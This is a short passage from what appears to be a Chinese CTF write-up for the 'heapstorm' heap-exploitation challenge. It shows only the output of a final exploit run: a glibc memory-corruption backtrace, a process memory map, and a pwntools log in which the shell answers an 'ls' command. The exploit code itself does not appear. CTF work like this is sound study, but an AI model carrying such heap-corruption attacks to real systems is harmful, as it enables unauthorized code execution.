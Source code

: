 最终效果：

```
*** Error in `/home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm': malloc(): memory corruption: 0x00007ffff7dd2520 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7ffff7a847e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8213e)[0x7ffff7a8f13e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_calloc+0xba)[0x7ffff7a91dca]
/home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm(+0x1099)[0x555555555099]
/home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm(+0xa94)[0x555555554a94]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7ffff7a2d830]
/home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm(+0xaf9)[0x555555554af9]
======= Memory map: ========
51fe48c8000-51fe48c9000 rw-p 00000000 00:00 0 
555555554000-555555556000 r-xp 00000000 08:01 934356                     /home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm
555555755000-555555756000 r--p 00001000 08:01 934356                     /home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm
555555756000-555555757000 rw-p 00002000 08:01 934356                     /home/leo/Desktop/CTF/2018htcf/heapstorm/heapstorm
555555757000-555555778000 rw-p 00000000 00:00 0                          [heap]
7ffff0000000-7ffff0021000 rw-p 00000000 00:00 0 
7ffff0021000-7ffff4000000 ---p 00000000 00:00 0 
7ffff77f7000-7ffff780d000 r-xp 00000000 08:01 398803                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff780d000-7ffff7a0c000 ---p 00016000 08:01 398803                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff7a0c000-7ffff7a0d000 rw-p 00015000 08:01 398803                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff7a0d000-7ffff7bcd000 r-xp 00000000 08:01 419518                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7bcd000-7ffff7dcd000 ---p 001c0000 08:01 419518                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dcd000-7ffff7dd1000 r--p 001c0000 08:01 419518                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd1000-7ffff7dd3000 rw-p 001c4000 08:01 419518                     /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd3000-7ffff7dd7000 rw-p 00000000 00:00 0 
7ffff7dd7000-7ffff7dfd000 r-xp 00000000 08:01 419516                     /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7fdc000-7ffff7fdf000 rw-p 00000000 00:00 0 
7ffff7ff6000-7ffff7ff7000 rw-p 00000000 00:00 0 
7ffff7ff7000-7ffff7ffa000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
7ffff7ffc000-7ffff7ffd000 r--p 00025000 08:01 419516                     /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7ffd000-7ffff7ffe000 rw-p 00026000 08:01 419516                     /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0 
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
$ ls
[DEBUG] Sent 0x3 bytes:
    'lsn'
[DEBUG] Received 0x26 bytes:
    'core  exp.py  heapstorm  libc-2.23.son'
core  exp.py  heapstorm  libc-2.23.so

```
